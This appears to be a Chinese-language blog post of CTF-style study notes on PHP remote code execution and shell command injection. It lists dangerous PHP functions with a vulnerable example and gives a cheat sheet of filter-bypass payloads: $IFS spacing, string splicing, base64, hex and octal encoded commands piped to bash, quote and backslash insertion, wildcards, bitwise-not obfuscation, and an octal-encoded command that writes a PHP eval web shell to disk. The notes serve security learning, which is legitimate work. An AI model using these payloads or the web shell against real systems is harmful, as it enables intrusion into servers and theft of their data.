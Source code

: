 ```yaml
---
layout: post
title: 命令执行
categories: [web,rce]
---
```


# 远程代码执行

## 常见的函数

> 1.eval($_POST['cmd']);  参数当php代码执行  ,需以分号结尾

> 2.assert(代码) 不需以分号结尾

> 3.preg_replace(‘正则规则’,'替换成的字符'，‘被替换的字符’)  规则里面的`/e`是将替换完的字符转变为eval()方式

> 4.array_map(callable,array1[,array2···]) callable是回调函数,执行array的值

```php
<?php
  $func=$_GET['fun'];
  $cmd=$_POST['cmd'];
  $array[0]=$cmd;
  $new_array=array_map($func,$array);
  echo $new_array;
?>
例：
  url?func=assert;
  post:cmd=phpinfo();
```

> 5.creat_function(‘’,$_POST['cmd']) 从传递的参数中创建一个匿名函数，并为其返回唯一的名称
> 
> `'xxxx'`包裹的不会被解析，而`"xxxx"` 包裹的会被转义

> 6.call_user_func(callback,parameter1[,...])

> ```
> 例：call_user_func("assert",$_POST['cmd']);
> ```

> 7.array_filter(array,callback) 如：array_filter(`$`array,`$`func)

## 双引号

> 在php中双引号的变量会被解析，单引号不会，因此可以用`{${phpinfo()}}`包裹

<br/>

# 远程系统命令执行

## 常见函数

> system():显示输出
> print和var_dump作用类似
> exec(cmd,output)：仅执行,只返回结果的最后一行，可以使用第二个参数输出到指定数组
> 
> shell_exec()：通过shell环境执行和输出
> 
> passthru()：在unix系统命令并显示原始输出
> 
> penti_exec()
> 
> popen()：打开进程文件指针,与`exec()`类似
> 
> proc_popen()：执行一个命令并且打开用来输入/输出的文件指针
> 
> 反引号命令执行
>basename():此函数返回路径中的文件名的一部分(后面),此函数还有一个特点，就是会去掉文件名的非ASCII码值
>x=index.php/config.php/%ff

## 常用特殊字符  

>1|2：直接执行2

>1||2：仅1为假2执行
 
>1&2：1可真可假

>1&&2：1只能为真2才执行

>1;2：2都被执行,`;`是在shell环境下的连续命令  

## 常见的绕过方法

### 1.空格绕过

常见的绕过符号有：
`$IFS$9` 、`${IFS}` 、`%09`(php环境下)、 重定向符`<>`、`<、`

### 2.拼接绕过

```php
#执行ls命令：
a=l;b=s;$a$b
#cat flag文件内容：
a=c;b=at;c=f;d=lag;$a$b ${c}${d}
#cat test文件内容
a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$b test
```

### 3.编码绕过

```php
#base64
echo "Y2F0IC9mbGFn"|base64 -d|bash ==>cat /flag
echo Y2F0IC9mbGFn|base64 -d|sh==>cat /flag
#hex
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
#oct/字节
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
#i也可以通过这种方式写马
内容为<?php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```

### 4.单引号和双引号绕过

```
c'a't test
c"a"t test
反引号可以在linux环境下解析为调用系统命令
```

### 5.反斜杠绕过

```
ca\t test
```

### 6..通过$PATH绕过

```
#echo $PATH 显示当前PATH环境变量，该变量的值由一系列以冒号分隔的目录名组成
#当执行程序时，shell自动跟据PATH变量的值去搜索该程序
#shell在搜索时先搜索PATH环境变量中的第一个目录，没找到再接着搜索，如果找到则执行它，不会再继续搜索
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
`echo $PATH| cut -c 8,9`t test
```

### 7.linux中查看文件内容的命令

```
cat、tac、more、less、head、tail、nl、sed、sort、uniq
```

### 8.通配符绕过

```
cat t?st
cat te*
cat t[a-z]st
cat t{a,b,c,d,e,f}st
```

### 9.如果过滤了&_等字符

```php
取反
<?php
  $a = "phpinfo";
  echo urlencode(~$a);
?>
#%8F%97%8F%96%91%99%90
(~%8F%97%8F%96%91%99%90)();
```

### 10.内联执行

```

```

### tee命令
Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。  
```
?url=l\s / | tee 1.txt   
之后访问我们传入的文件1.txt，发现命令被执行  
再传入 ?url=tac /flllll\aaaaaaggggggg | tee 2.txt   #然后访问2.txt  
```

### is_numeric()绕过 
>is_numeric( mixed $var) : bool  
>如果var是数字或者数字字符串那么就返回TRUE，否则就返回FALSE。那么这里说的绕过是什么姿势呢？是十六进制。
```php
<?php
    $a = is_numeric('0x31206f722031');
  if($a){
        echo 'It meets my requirement';
    }
  else{
        echo 'Try again';
    }
?>
执行结果——>
It meets my requirement
```
>0x31206f722031是or 1=1的十六进制

### 其他
#### system('ls') : 列举当前目录下的所有文件
#### system("find / -name flag*")：查找所有文件名匹配flag的文件